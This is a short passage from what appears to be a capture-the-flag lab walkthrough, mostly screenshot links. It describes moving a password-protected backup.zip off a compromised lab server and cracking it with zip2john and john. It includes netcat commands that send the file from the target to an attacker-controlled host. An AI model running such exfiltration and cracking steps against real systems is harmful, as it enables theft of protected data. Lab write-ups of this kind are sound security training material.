 ![c25c03c58227cb8b10ad862ecf384471.png](/images/vh-nully1/564e9b576eaf42eab02b77b74eb13df4.png)

![538ec7e05fac4e1be0001da4b599e5ab.png](/images/vh-nully1/670bb22ea16c4f1db60e42d6c35880ba.png)

Turns out we need a password. Let's download the zip file back to our local machine, then extract the password hash with `zip2john`, then crack it with `john`. We can use `nc` to transfer the file. 

```bash
#Remote Server
nc -w 3 192.168.32.4 8000 < backup.zip

#Local Machine
nc -lvnp 8000 > backup.zip
```

![fca703fb1e60734ef80821b9ec64b0e3.png](/images/vh-nully1/03484071ffc94108bda86a69cca02c9c.png)
